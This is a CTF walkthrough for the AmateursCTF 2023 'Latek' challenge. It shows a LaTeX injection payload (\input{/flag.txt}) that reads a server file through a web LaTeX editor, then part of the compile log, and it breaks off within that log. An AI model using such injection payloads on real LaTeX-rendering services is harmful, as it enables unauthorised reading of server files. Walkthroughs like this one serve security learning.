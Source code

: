 ```yaml
---
title: "Latek"
date: 2023-07-16 00:00:00 +0800
categories: [Walkthrough, AmateursCTF]
tags: [AmateursCTF2023]
---
```


## Details
- Platform: [AmateursCTF](/categories/amateursctf/)
- Event: [AmateursCTF 2023](/tags/amateursctf2023/)

## Setting

The challenges context is as follows:

> bryanguo (not associated with the ctf), keeps saying it's pronouced latek not latex like the glove material. anyways i made this simple app so he stops paying for overleaf.

[Overleaf](https://www.overleaf.com/) is a popular LaTeX editor. Probably with less security issues too.

Let's try to find this LaTeX editors vulnerability, and convice Bryanguo to invest in a secure LaTeX editor!

## Walkthrough
In the challenge description, we are told that `/flag.txt` is the only place we can find the flag.

Let's try using a LaTeX payload to read the contents of the file.

You can find a bunch of LaTeX payloads in the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection) repository.

In this case, we use the `\input{/some/file.txt}`.

The full code entered into the LaTeX editor is as follows.

```latex
\documentclass{article}

\begin{document}

\input{/flag.txt}

\end{document} 

```

In this editor, we can conveniently see the logs right below the pdf preview pane.

After entering the above LaTeX code into the editor, this is the output for the logs that we get.

```latex
This is pdfTeX, Version 3.141592653-2.6-1.40.25 (TeX Live 2023) (preloaded format=pdflatex 2023.5.17)  19 JUL 2023 19:02  
entering extended mode  
 %&-line parsing enabled.  
**/app/inputs/RjJJtp0ndp01WEnF.tex  
(/app/inputs/RjJJtp0ndp01WEnF.tex  
LaTeX2e <2022-11-01> patch level 1  
L3 programming layer <2023-05-15>  
(/usr/local/texlive/2023/texmf-dist/tex/latex/base/article.cls  
Document Class: article 2022/07/02 v1.4n Standard LaTeX document class  
(/usr/local/texlive/2023/texmf-dist/tex/latex/base/size10.clo  
File: size10.clo 2022/07/02 v1.4n Standard LaTeX file (size option)  
)  
```